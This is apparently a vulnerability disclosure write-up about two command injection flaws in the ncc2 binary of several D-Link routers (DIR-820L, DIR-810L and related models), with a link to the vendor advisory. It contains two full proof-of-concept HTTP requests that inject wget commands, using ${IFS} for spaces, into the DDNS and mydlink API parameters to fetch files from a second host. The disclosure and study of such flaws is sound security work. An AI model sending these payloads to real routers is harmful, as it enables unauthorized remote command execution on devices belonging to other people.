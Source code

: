 # D-LINK_DIR820L(series)_Command_Injection

#### Official certification
https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10264

#### Impact equipment

D-Link DIR-820L  (Rev A) ALL

D-Link DIR-820L  (Rev B) ALL

DIR-830L A1 

D-Link DIR-810L (Rev A) ALL

D-Link DIR-810L (Rev B) ALL

D-Link DIR-810L (Rev A) ALL

D-Link DIR-826L (Rev A) ALL

DIR-836L (Rev A) 

DIR-820LW (Rev A)

#### Firmware_link

https://tsd.dlink.com.tw/
## Vulnerability1

#### Detail

​	Router firmware such as D-Link dir-820l checks the DDNS function in ncc2 binary file for command injection, which can cause arbitrary command execution

#### Detail

​	There is a “doCheck” function in the ncc2 binary file, as shown below in IDA

<img src="./img/image-20211219002658341.png" alt="image-20211219002658341" style="zoom:50%;" />

​	 Can see that the ddnshostname and ddnusername variables are controllable and directly brought in without any check_ System function this function is essentially the execution of the formatted system function, resulting in command injection	

<img src="./img/image-20211219003013336.png" alt="image-20211219003013336" style="zoom:50%;" />

#### POC

```
POST /ddns_check.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 186
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/storage.asp
Cookie: hasLogin=1

ccp_act=doCheck&ddnsHostName=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsUsername=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsPassword=123123123
```
## Vulnerability2
#### Describe

​	Router firmware such as D-Link dir-820l "callback_ccp_mydlink_api" function in ncc2 binary file for command injection, which can cause arbitrary command execution

#### Detail

​	There is a “callback_ccp_mydlink_api” function in the ncc2 binary file, as shown below in IDA，api_page parameter accepted
<img src="./img/image-20211221143528591.png" alt="image-20211221143528591" style="zoom:50%;" />
Only need to use single quotes to close the content to cause command injection
<img src="./img/image-20211221143653263.png" alt="image-20211221143653263" style="zoom:50%;" />
#### POC
```
POST /mydlink_api.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 54
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/tools_admin.asp
Cookie: uid=vdu6Hjnj39; hasLogin=1

api_page=";wget${IFS}http://192.168.0.100:9988/2.txt;"
```
